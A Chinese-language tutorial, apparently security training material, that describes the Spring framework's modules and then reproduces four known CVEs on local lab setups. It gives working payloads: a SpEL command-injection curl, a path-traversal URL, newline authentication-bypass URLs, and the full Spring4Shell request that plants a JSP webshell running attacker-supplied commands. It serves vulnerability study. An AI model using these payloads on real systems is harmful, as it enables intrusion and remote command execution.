# web 主流应用漏洞-Spring

<!-- more -->

## 1. Spring 介绍

### 1.1 什么是 Spring

Spring 是功能强大的组件粘合剂，贯穿表现层、业务层、持久层。能够将所有的 java 功能模块用配置文件的方式组合起来成为一个完整的应用，可以帮助 Java 程序员解决许多在 J2EE(企业级分布式应用程序开发规范)开发中常见的的问题。

> Spring 框架代码下载地址:
>
> https://github.com/spring-projects/spring-framework/releases
>
> https://repo.spring.io/ui/native/libs-release-local/org/springframework/spring/
>
> https://mvnrepository.com/search?q=spring

最新版本 5.3.27

### 1.2 Spring Framework 的组成模块

Spring Framework 项目是整个 Spring 生态的基础，包含了 Spring 最核心的功能，如：IOC，AOP，Spring MVC 等，

> IOC 控制反转，把对象的创建和对象之间的调用过程，交给 Spring 管理
>
> AOP 面向切面编程，通过预编译方式和运行期间动态代理实现程序功能的统一维护，它所面对的是处理过程中的某个步骤或阶段，以获得各部分之间低耦合的隔离效果
>
> OOP 面向对象编程 针对业务逻辑处理过程中的实体及其属性和行进行抽象封装，获得更加清晰高效的逻辑单元划分

Spring Framework 包含多个子模块，如：spring-core，spring-beans，spring-context，spring-aop，spring-web，spring-webmvc 等等。各模块之间又存在依赖关系。例如我们在 Java Web 项目中使用得最多的 Spring MVC 实际上就是模块 spring-webmvc

Spring 框架包含的功能大约由 20 个小模块组成。这些模块按组可分为核心容器(Core Container)、数据访问/集成(Data Access/Integration)、Web、面向切面编程(AOP 和 Aspects)、设备(Instrumentation)、消息(Messaging)和测试(Test)。如下图所示：

> 除了最核心的 Spring Core Container(即 Spring 容器)是必要模块之外，其他模块都是可选


(1) 核心容器(Core Container)——Beans、Core、Context、Expression

该层由 4 个模块组成：spring-beans spring-core spring-context spring-expression(spring expression Language,SpEl) 。它们对应的 jar 包如下：

1. spring-core：该模块是依赖注入 IoC 与 DI 的最基本实现。
2. spring-beans：该模块是 Bean 工厂与 bean 的装配。
3. spring-context：该模块构架于核心模块之上，它扩展了 BeanFactory，为它添加了 Bean 生命周期控制、框架事件体系以及资源加载透明化等功能。ApplicationContext 是该模块的核心接口，它的超类是 BeanFactory。与 BeanFactory 不同，ApplicationContext 容器实例化后会自动对所有的单实例 Bean 进行实例化与依赖关系的装配，使之处于待用状态。
4. spring-context-indexer：该模块是 Spring 的类管理组件和 Classpath 扫描。
5. spring-context-support：该模块是对 Spring IOC 容器的扩展支持，以及 IOC 子容器。
6. **spring-expression：该模块是 Spring 表达式语言块是统一表达式语言（EL）的扩展模块，可以查询、管理运行中的对象，同时也方便的可以调用对象方法、操作数组、集合等。**

(2) 数据访问与集成(Data Access/Integration)——Jdbc、Orm、Oxm、Jms、Transactions

该层由 spring-jdbc、spring-tx、spring-orm、spring-jms 和 spring-oxm 5 个模块组成。它们对应的 jar 包如下：

1. spring-jdbc：该模块提供了 JDBC 抽象层，它消除了冗长的 JDBC 编码和对数据库供应商特定错误代码的解析。
2. spring-tx：该模块支持编程式事务和声明式事务，可用于实现了特定接口的类和所有的 POJO 对象。编程式事务需要自己写 beginTransaction()、commit()、rollback()等事务管理方法，声明式事务是通过注解或配置由 spring 自动处理，编程式事务粒度更细。
3. spring-orm：该模块提供了对流行的对象关系映射 API 的集成，包括 JPA、JDO 和 Hibernate 等。通过此模块可以让这些 ORM 框架和 spring 的其它功能整合，比如前面提及的事务管理。
4. spring-oxm：该模块提供了对 OXM 实现的支持，比如 JAXB、Castor、XML Beans、JiBX、XStream 等。
5. spring-jms：该模块包含生产（produce）和消费（consume）消息的功能。从 Spring 4.1 开始，集成了 spring-messaging 模块。

(3) Web——Web、Webmvc、WebFlux、Websocket

该层由 spring-web、spring-webmvc、spring-websocket 和 spring-webflux 4 个模块组成。它们对应的 jar 包如下：

1. spring-web：该模块为 Spring 提供了最基础 Web 支持，主要建立于核心容器之上，通过 Servlet 或者 Listeners 来初始化 IOC 容器，也包含一些与 Web 相关的支持。
2. spring-webmvc：该模块众所周知是一个的 Web-Servlet 模块，实现了 Spring MVC（model-view-Controller）的 Web 应用。
3. spring-websocket：该模块主要是与 Web 前端的全双工通讯的协议。
4. spring-webflux：该模块是一个新的非堵塞函数式 Reactive Web 框架，可以用来建立异步的，非阻塞，事件驱动的服务，并且扩展性非常好。

(4) 面向切面编程——AOP，Aspects

该层由 spring-aop 和 spring-aspects 2 个模块组成。它们对应的 jar 包如下：

1. spring-aop：该模块是 Spring 的另一个核心模块，是 AOP 主要的实现模块**。**
2. spring-aspects：该模块提供了对 AspectJ 的集成，主要是为 Spring AOP 提供多种 AOP 实现方法，如前置方法后置方法等。

(5) 设备(Instrumentation)——Instrmentation

spring-instrument：该模块是基于 JAVA SE 中的"java.lang.instrument"进行设计的，应该算是 AOP 的一个支援模块，主要作用是在 JVM 启用时，生成一个代理类，程序员通过代理类在运行时修改类的字节，从而改变一个类的功能，实现 AOP 的功能。

(6) 消息(Messaging)——Messaging

spring-messaging：**该模块是从 Spring4 开始新加入的一个模块，主要职责是为 Spring 框架集成一些基础的报文传送应用。**

(7) 测试（Test）——Test

spring-test**：该模块主要为测试提供支持的，通过 JUnit 和 TestNG 组件支持单元测试和集成测试。它提供了一致性地加载和缓存 Spring 上下文，也提供了用于单独测试代码的模拟对象（mock object）。**

### 1.3 Spring Framework 的特点

--优点：

1. 方便解耦，简化开发：通过 Spring 提供的 IoC 容器，我们可以将对象之间的依赖关系交由 Spring 进行控制，避免硬编码所造成的过度程序耦合。有了 Spring，用户不必再为单实例模式类、属性文件解析等这些很底层的需求编写代码，可以更专注于上层的应用。
2. AOP 编程的支持：通过 Spring 提供的 AOP 功能，方便进行面向切面的编程，许多不容易用传统 OOP 实现的功能可以通过 AOP 轻松应付。
3. 声明式事务的支持：在 Spring 中，我们可以从单调烦闷的事务管理代码中解脱出来，通过声明式方式灵活地进行事务的管理，提高开发效率和质量。
4. 方便程序的测试：可以用非容器依赖的编程方式进行几乎所有的测试工作，在 Spring 里，测试不再是昂贵的操作，而是随手可做的事情。例如：Spring 对 Junit4 支持，可以通过注解方便的测试 Spring 程序。
5. 方便集成各种优秀框架：Spring 不排斥各种优秀的开源框架，相反，Spring 可以降低各种框架的使用难度，Spring 提供了对各种优秀框架（如 Struts,Hibernate、Hessian、Quartz）等的直接支持。
6. 轻量级的框架：从大小与开销两方面而言 Spring 都是轻量的。现在完整的 Spring5 框架只有 82MB。并且 Spring 所需的处理开销也是微不足道的。
7. 非入侵式的框架：Spring 框架是一个非入侵式的框架，就是我们的系统使用了 Spring，但系统完全不依赖于 Spring 的特定类。
8. 降低 Java EE API 的使用难度：Spring 对很多难用的 Java EE API（如 JDBC，JavaMail，远程调用等）提供了一个封装层，通过 Spring 的简易封装，这些 Java EE API 的使用难度大为降低。
9. Java 源码是经典学习范例：Spring 的源码设计精妙、结构清晰，Spring 框架源码是 Java 技术的较好实践范例。

那么再好的框架，肯定也是有缺点的。

-**-缺点**

1. **不易拆分：spring 框架整合其它框架都是黏在一起，后面拆分的话就不容易拆分了。**
2. **配置繁琐：随着系统工程的增大，系统与第三方的配置文件会大量增加，这也是 Spring 最致命的地方**，**人称：“配置地狱”**。

### 1.4 Spring 扩展

Spring 框架经过这么多年的发展，它已经衍生出了一个非常庞大的体系



最主要有 SpringBoot、SpringCloud 等等。如下图所示：



- SpringBoot 的设计目的是用来简化 Spring 应用的开发过程。现在大部分企业都在使用 SpringBoot 进行快速开发，Springboot 内部集成了很多第三方库的配置，所以它开箱即用。而且能够快速整合第三方框架，无需配置繁琐的文件，解决了 Spring 的弊端。基于 Spring Boot 可以快速的开发单个微服务。 SpringBoot 的约定大于配置！

> 约定优于配置（Convention Over Configuration）,也称作按约定编程是一种软件设计范式。目的在于减少软件开发人员所需要做出的决定的数量，从而获得简单的好处，而又不失去其中的灵活性。

- Spring Cloud 是一个基于 Spring Boot 实现的服务治理工具包，在微服务架构中用于管理和协调服务。

> 微服务：就是把一个单体项目,拆分为多个微服务,每个微服务可以独立技术选型,独立开发,独立部署,独立运维.并且多个服务相互协调,相互配合,最终完成用户的价值.

其中 Spring Boot 是基于 Spring Framework 来构建的，Spring Cloud 是构建 Spring Boot 分布式环境。所以 Spring Boot 是中流砥柱，起到承上启下的作用：

但是注意：正是因为 SpringBoot 简化了开发，开箱即用，所以很多人都跳过了 Spring 的学习，学到后面这个注解那个类是什么都不知道。所以学习 SpringBoot 的前提是需要完全掌握 Spring 以及 SpringMVC 的知识的，不要急于求成，必须要一步一步扎实基础。

- Spring Cloud Data Flow

Spring Cloud Data Flow 用于构建在云环境或 K8S 中基于微服务的实时或批数据处理架构，具体来讲就是支持一系列需要进行数据处理的场景，如：ETL，数据导入/导出，事件流，预测分析等等。

- Spring Data

Spring Data 旨在提供一套基于 Spring 编程模型的数据访问 API，是一个数据访问框架集合，其中包含了多个具体的支持不同方式访问特定数据库类型的子模块，如：Spring Data JDBC（使用 JDBC 方式访问关系型数据库），Spring Data MongoDB（访问 MongoDB 数据库）等。这个模块的功能类似于 MyBatis 这样的专门的 ORM 框架，在实际开发中可以根据需求进行灵活选择。

### 1.5 历史漏洞



## 2. 部分历史漏洞讲解

### 2.1 Spring Data Commons 远程命令执行漏洞（CVE-2018-1273）

#### 漏洞简介

Spring Data 是一个用于简化数据库访问，并支持云服务的开源框架，Spring Data Commons 是 Spring Data 下所有子项目共享的基础框架。Spring Data Commons 部分版本存在漏洞，攻击者可构造包含有恶意代码的 SPEL 表达式实现远程代码攻击，直接获取服务器控制权限。

> Spring Data Commons 1.13 to 1.13.10
>
> Spring Data Commons 2.0 to 2.0.5

#### 简单代码分析

org.springframework.data.web.MapDataBinder 类中，Spring 在自动解析用户的参数的时候采用了 SpelExpressionParser 来解析 propertyName，但是并没有对参数进行进行有效的校验。



#### 漏洞复现

exp 如下：

```
curl -X POST http://localhost:8080/account -d "name[#this.getClass().forName('java.lang.Runtime').getRuntime().exec('calc.exe')]=123"
```



### 2.2 Spring Boot Actuator Logview 目录遍历漏洞（CVE-2021-21234）

#### 漏洞简介

spring-boot-actuator-logview 是一个简单的日志文件查看器作为 Spring Boot 执行器端点，在 0.2.13 版本之前存在着目录遍历漏洞，编号 CVE-2021-21234。漏洞本质是 Spring Boot 执行器通过请求的参数来指定文件名和文件夹路径，经过组合拼接达到目录遍历，虽然源码中检查了文件名参数 filename 来防止目录遍历，但是没有检查文件夹参数 base，造成了目录遍历。目录遍历漏洞允许恶意攻击者突破 Web 应用程序的安全控制，直接访问攻击者想要的敏感数据 ，包括配置文件、日志、源代码等，配合其它漏洞的综合利用，攻击者可以轻易的获取更高的权限。

> spring boot < 0.2.13

#### 简单代码分析

eu.hinsch.spring.boot.actuator.logview.LogViewEndpoint 类中，view 函数对 filename 参数进行合法性校验，但是没有对 base 参数进行合法性校验。



filename 的校验函数



#### 漏洞复现

在 D 盘下有一个文件 aa.txt，访问如下 URL

```
http://127.0.0.1:8887/manage/log/view?filename=aa.txt&base=../../../../../../../../
```



### 2.3 Spring Security 认证绕过漏洞（CVE-2022-22978）

#### 漏洞简介

当 Spring-security 使用 RegexRequestMatcher 进行权限配置，由于 RegexRequestMatcher 正则表达式配置权限的特性，正则表达式中包含“.”时，未经身份验证攻击者可以通过构造恶意数据包绕过身份认证。

> Spring Security 5.5.x < 5.5.7
>
> Spring Security 5.6.x < 5.6.4

#### 简单代码分析

使用默认的正侧匹配方式，用正则匹配流量的过程中发现正则“.”号不匹配换行符





修复后结果如下（https://github.com/spring-projects/spring-security/compare/5.6.3...5.6.4）：



#### 漏洞复现

访问`http://127.0.0.1:8080/admin/1`会因为没有登录而跳转到 login 界面



访问如下即可绕过

```
http://127.0.0.1:8080/admin/1%0d
http://127.0.0.1:8080/admin/1%0a
```



### 2.4 Spring Framework 远程代码执行漏洞（CVE-2022-22965）

#### 漏洞简介

22 年 3 月爆出漏洞，原理可以参考https://paper.seebug.org/1877/。利用SpringMVC参数绑定机制，通过请求传入的参数，控制了Tomcat `AccessLogValve`的属性，让 Tomcat 输出定制的”访问日志“，该“访问日志”实际上为一个 JSP webshell。

#### 漏洞复现

**环境搭建：**(也可以直接使用 vulhub)

> 参考：[GitHub - wshon/spring-framework-rce: CVE-2022-22965](https://github.com/wshon/spring-framework-rce)

本漏洞对各组件版本要求较高，基本要求：

> Spring Framework：5.3.0-5.3.17，5.2.0-5.2.19, 以及其他老版本
>
> tomcat8 <=8.5.77, tomcat9 <=9.0.61
>
> jdk > 8

本次演示环境如下：



> 代码地址：实验室培训\spring\code\4-CVE-2022-22965（github 直接下载的不太对）

1. mvn package 打 war 包，将 war 包重名为`ROOT.war`(这里是为了和 vulhub 发送的攻击报文一样，才改成了 ROOT。不重命名也可以，只要把下面请求包里的 webapps/ROOT 字段中的 ROOT 修改为 war 包的名字即可)
2. 清空 tomcat 的 webapps 目录，将上面的 war 包放入该目录（tomcat 默认托管这个目录，不想放在这里可以的话，需要去修改配置文件 conf/server.xml）
3. 进入 tomcat 的 bin 目录，用管理员身份执行`catalina.bat run`

**漏洞复现：**发送以下请求以更改 Apache Tomcat 中的日志记录配置并将日志写入 JSP 文件：

```http
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: 127.0.0.1:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) 	AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 		Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1


```

ROOT 目录下就会出现一个 jsp 文件，这就是写入的 webshell。



然后访问/tomcatwar.jsp?pwd=j&cmd= 即可执行命令。



注意，需要在利用完成后将`class.module.classLoader.resources.context.parent.pipeline.first.pattern`清空，否则每次请求都会写入新的恶意代码在 JSP Webshell 中，导致这个文件变得很大。发送如下数据包将其设置为空：

```http
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

总体来说，这个漏洞的利用方法会修改目标服务器配置，导致目标需要重启服务器才能恢复，实际测试中需要格外注意。

#### POC 分析

参数绑定的实现方式：如果用户传入 name=zzz，则 Spring 框架会自动调用`user.setName(‘zzz’)`进行赋值,，然后`user.getName()`返回 name。 如果提交的参数中出现了 User 类的一个 public 字段或方法，就自动用户提交请求给他赋值。

`name`自动绑定到了`user`参数的`name`属性上，`age`自动绑定到了`user`参数的`age`属性上。







给这个 doBind 方法传恶意参数，即 POC 中的各个参数，对 POC 中的参数 URL 解码后可以拆分成如下 5 对参数。

**`pattern`参数**

- 参数名：`class.module.classLoader.resources.context.parent.pipeline.first.pattern`
- 参数值：`%{c2}i if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i`

